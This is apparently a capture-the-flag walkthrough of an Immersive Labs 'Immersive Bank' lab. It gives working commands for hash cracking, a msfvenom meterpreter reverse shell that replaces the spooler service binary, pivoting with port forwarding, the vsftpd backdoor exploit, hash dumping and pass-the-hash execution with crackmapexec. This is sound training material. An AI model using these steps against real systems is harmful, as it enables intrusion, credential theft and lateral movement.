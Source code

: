 ```yaml
---
date: 2025-03-07
categories: [CTF, IML]
title: "IML - Immersive Bank"
tags: ['ftp', 'hashdump', 'john the ripper', 'privilege escalation', 'rce', 'reverse shell', 'smb', 'windows']

description: "Immersive Bank - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - Immersive Bank

**<u>Immersive Bank: Ep.1 – Open Source and Credentials</u>**
```bash
john hash /usr/share/wordlists/rockyou.txt --format=raw-sha256S

```

![image1](../resources/5a9da1d38d9441d98ec574c0ffb4167f.png)


![image2](../resources/ff8b07f220184b248f67c606e02f9cb2.png)

**<u>Immersive Bank: Ep. 2 – Gaining Access</u>**
```bash
xfreerdp /v:10.102.189.120:8877 /u:carlof /p:manunited +clipboard +drives /drive:root,/home/kali /dynamic-resolution /cert:ignore

```

![image3](../resources/cb678f99260b4d77a1dab3ca4c44216b.png)

**<u>Immersive Bank: Ep.3 – Privilege Escalation</u>**
```bash
xfreerdp /v:10.102.118.107:8877 /u:carlof /p:manunited +clipboard +drives /drive:root,/home/kali /dynamic-resolution /cert:ignore

```
Troubleshooting file in C:\IMLBankIT


![image4](../resources/88128aa965a04ed0ac96f26867735f29.png)


![image5](../resources/877f385f297546559a08df9e6e23d37d.png)

```bash
sc query spooler

```

![image6](../resources/ac759a27b55043848b971c7a027f940f.png)

- Create a reverse shell named spoolsv.exe
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.102.170.0 LPORT=4445 -f exe -o spoolsv.exe

```
- Set up listener
```bash
msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost 10.102.170.0; set lport 4445; exploit"

```
- Transfer the malicious exe and replace the original

- Start service:
```bash
sc start spooler

```

![image7](../resources/2932eb0ce39f4c62b97c6bff51ff6b1d.png)

- Migrate to a more stable process:
```bash
ps

migrate -N LogonUI.exe

```

![image8](../resources/7f9c57411e0e4f59b9f889983c4b05f2.png)


cat C:\Users\Administrator\Desktop\token.txt


**<u>Immersive Bank: Ep.4 – Pivoting</u>**

```bash
xfreerdp /v:10.102.146.57:8877 /u:carlof /p:manunited +clipboard +drives /drive:root,/home/kali /dynamic-resolution /cert:ignore

```

![image9](../resources/f08f524068394b3897f76128fb2a307a.png)

- Do above exploit first to get SYSTEM and migrate to a more stable process

- Ping the FTP server to see if we can talk to it

![image10](../resources/a989c28fb914484d9688ace7e54588da.png)

- Background current meterpreter session (bg):

![image11](../resources/afcfabd38ef1469f974786de9ca2124e.png)

- Now we need to add a route to the FTP server:
```bash
route add 10.102.36.63 255.255.255.255 1

```

![image12](../resources/52f0db74f48147e98ec6c4a5ea0746fc.png)

- Back to the session:
```bash
sessions 1

```
- Forward port 3000 on our localhost to port 21 on the FTP server:
```bash
portfwd add -l 3000 -p 21 -r 10.102.36.63

```

![image13](../resources/9c146bdd6c44465c8a4e427a3400a9d0.png)

- Open another terminal

Banner grab with nc or ftp:

```bash
nc 127.0.0.1 3000

```

![image14](../resources/d4298ca418c1452882729f07eed0aad7.png)


![image15](../resources/d7f7f68f0c37441085fbbe2a0edcfe70.png)

- Background current meterpreter session:
```bash
bg
```

- Search for vsftpd in msf and use the following payload:
```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set rhosts 10.102.36.63  #Because route was added
set rport 21

```

![image16](../resources/3b18d9c8b1d04027a0569275690c1a27.png)


![image17](../resources/c0fa403808ce4f60bbdf40d93421bbdc.png)

**\*\*Tip** - before going on to Ep.5 - Do a hashdump in meterpreter and save the manager hash

**<u>Immersive Bank: Ep.5 – Account Abuse</u>**
- If you didn't save the hash on Ep.4 - you need to do the whole priv esc part again and in meterpreter, do a hashdump:

![image18](../resources/77e33bc5545047ccafe4f89b8a61a53b.png)

manager:1002:aad3b435b51404eeaad3b435b51404ee:**66ece2b7200f29cbd0b799350c29244e**:::

- We can check the credentials with CME:
```bash
crackmapexec smb 10.102.154.232 -u manager -H 66ece2b7200f29cbd0b799350c29244e

```

![image19](../resources/a31d5f5b29d745d1a259b508479988a7.png)

- We can also execute commands through CME:
```bash
crackmapexec smb 10.102.154.232 -u manager -H 66ece2b7200f29cbd0b799350c29244e -x 'type C:\Users\manager\Desktop\token.txt'

```

![image20](../resources/b52cd74f9da74350835fa359aca1d24a.png)
